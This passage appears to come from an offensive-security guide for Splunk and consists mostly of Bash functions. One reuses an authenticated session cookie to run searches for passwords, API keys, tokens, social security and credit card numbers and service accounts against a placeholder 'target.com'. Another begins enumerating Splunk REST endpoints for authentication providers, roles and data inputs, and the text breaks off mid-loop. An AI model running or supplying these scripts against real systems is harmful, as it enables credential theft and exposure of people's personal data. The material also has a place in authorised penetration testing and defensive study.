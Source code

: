 #### Sensitive Data Identification
```bash
# Identify sensitive data patterns in Splunk
sensitive_data_hunting() {
    local base_url=$1
    
    echo "[+] Hunting for sensitive data patterns:"
    
    # Sensitive data search patterns
    sensitive_patterns=(
        'password="*"'
        'api_key="*"'
        'secret="*"'
        'token="*"'
        'credential'
        'ssn=*'
        'credit_card=*'
        'social_security=*'
        'username=* password=*'
        'database_connection'
        'ldap_bind'
        'service_account'
    )
    
    for pattern in "${sensitive_patterns[@]}"; do
        echo "[+] Searching for pattern: $pattern"
        
        # Create search query
        search_query="search $pattern | head 5"
        encoded_query=$(echo "$search_query" | sed 's/ /%20/g')
        
        # Test if search returns results
        curl -s -b cookies.txt \
          "$base_url/en-US/app/search/search?q=$encoded_query" | \
          grep -q "events found\|No results found" && \
          echo "  [+] Search executed - check results manually"
    done
}

# sensitive_data_hunting "http://target.com:8000"
```

### Configuration File Analysis

#### Splunk Configuration Discovery
```bash
# Configuration file analysis and extraction
config_analysis() {
    local base_url=$1
    
    echo "[+] Analyzing Splunk configuration:"
    
    # Configuration API endpoints
    config_endpoints=(
        "/services/server/settings"
        "/services/authentication/providers"
        "/services/authorization/roles"
        "/services/data/indexes-extended"
        "/services/data/inputs/all"
        "/services/apps/local"
    )
    
    for endpoint in "${config_endpoints[@]}"; do
        echo "[+] Querying configuration: $endpoint"
```